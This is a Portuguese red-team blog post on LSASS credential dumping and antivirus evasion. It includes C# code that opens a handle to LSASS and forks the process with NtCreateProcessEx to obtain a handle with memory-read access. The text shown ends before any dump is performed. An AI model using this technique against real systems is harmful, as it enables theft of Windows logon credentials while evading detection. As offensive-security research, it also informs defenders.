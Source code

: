 ```yaml
---
title: "A reciclagem também está presente nos handles."
date: 2023-06-03 00:00:00 +0800
categories: [Windows, LSASS]
tags: [Red Team]
---
```


![Desktop View](https://i.imgur.com/O4rN4Sz.png)

Como sabemos, o processo do LSASS é um tesouro quando se observado pelo lado ofensivo. É neste processo que informações de logons de usuários são armazenadas (como as valiosas NT hashes). Quando o assunto é dump de credenciais, um handle com permissões de `PROCESS_VM_READ¹` ao LSASS se torna tudo o que um atacante quer.

>`PROCESS_VM_READ¹`: permissão necessária para a leitura da memória (dump) de um processo. 
{: .prompt-info }

Nos últimos tempos, estive me aprofundando em técnicas de dump de LSASS que normalmente um EDR/XDR não detectaria. Em um laboratório, instalei um famoso antivírus do mercado (no qual não citarei o nome) e que me rendeu bastante trabalho. Quando eu abria um novo handle pro LSASS e tentava interagí-lo, um erro era retornado: `STATUS_ACCESS_DENIED`.

![Desktop View](https://blackmetal2000.github.io/assets/img/open-handles/wihqqna.png)

No código, primeiro é aberto um novo handle pro LSASS com o privilégio `PROCESS_CREATE_PROCESS²`. Como exibido na captura de tela acima, o erro ocorria na execução da API `NtCreateProcessEx³`.


```csharp
uint accessParentProcess = PROCESS_CREATE_PROCESS;
uint accessChildProcess = PROCESS_QUERY_INFORMATION | PROCESS_VM_READ ;

IntPtr hParentProcess = OpenProcess((uint)accessParentProcess, false, Convert.ToUInt32(pid)); // abrindo um handle ao LSASS com PROCESS_CREATE_PROCESS

Console.WriteLine($"[+] Handle: {hParentProcess}");

int ningning = NtCreateProcessEx( // clonando o processo do LSASS
	out IntPtr hChildProcess,
	(uint)accessChildProcess,
	IntPtr.Zero,
	hParentProcess,
	0,
	IntPtr.Zero,
	IntPtr.Zero,
	IntPtr.Zero,
	false
);

if (ningning == 0)
{
	uint hChildPid = GetProcessId(hChildProcess);

	Console.WriteLine($"[^] Forked Handle: {hChildProcess}");
	Console.WriteLine($"[^] Forked PID: {hChildPid}");
}
```
